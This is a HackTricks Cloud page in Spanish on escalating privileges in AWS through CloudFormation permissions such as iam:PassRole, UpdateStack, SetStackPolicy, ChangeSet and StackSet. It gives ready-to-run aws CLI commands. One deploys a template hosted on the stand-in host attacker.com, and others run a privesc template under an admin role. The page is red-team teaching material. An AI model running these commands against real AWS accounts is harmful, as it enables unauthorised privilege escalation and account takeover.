 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Para más información sobre cloudformation, consulta:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un atacante con estos permisos **puede escalar privilegios** al crear un **stack de CloudFormation** con una plantilla personalizada, alojada en su servidor, para **ejecutar acciones bajo los permisos de un rol especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
En la siguiente página tienes un **ejemplo de explotación** con el permiso adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

En este caso puedes **abusar de una pila de cloudformation existente** para actualizarla y escalar privilegios como en el escenario anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La `cloudformation:SetStackPolicy` permiso puede ser utilizado para **darte a ti mismo el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si tienes este permiso pero **sin `iam:PassRole`** aún puedes **actualizar las pilas** utilizadas y abusar de los **roles de IAM que ya tienen adjuntos**. Consulta la sección anterior para un ejemplo de explotación (simplemente no indiques ningún rol en la actualización).

La `cloudformation:SetStackPolicy` permiso puede ser utilizado para **darte a ti mismo el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un atacante con permisos para **pasar un rol y crear & ejecutar un ChangeSet** puede **crear/actualizar una nueva pila de cloudformation abusando de los roles de servicio de cloudformation** al igual que con CreateStack o UpdateStack.

La siguiente explotación es una **variación de la**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilizando los **permisos de ChangeSet** para crear una pila.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permiso `cloudformation:SetStackPolicy` se puede usar para **darte permisos de `ChangeSet`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc a roles de servicio de cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Esto es como el método anterior sin pasar **roles de IAM**, así que solo puedes **abusar de los ya adjuntos**, solo modifica el parámetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un atacante podría abusar de estos permisos para crear/actualizar StackSets y abusar de roles de cloudformation arbitrarios.

**Impacto Potencial:** Privesc a los roles de servicio de cloudformation.

### `cloudformation:UpdateStackSet`

Un atacante podría abusar de este permiso sin el permiso passRole para actualizar StackSets y abusar de los roles de cloudformation adjuntos.

**Impacto Potencial:** Privesc a los roles de cloudformation adjuntos.

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
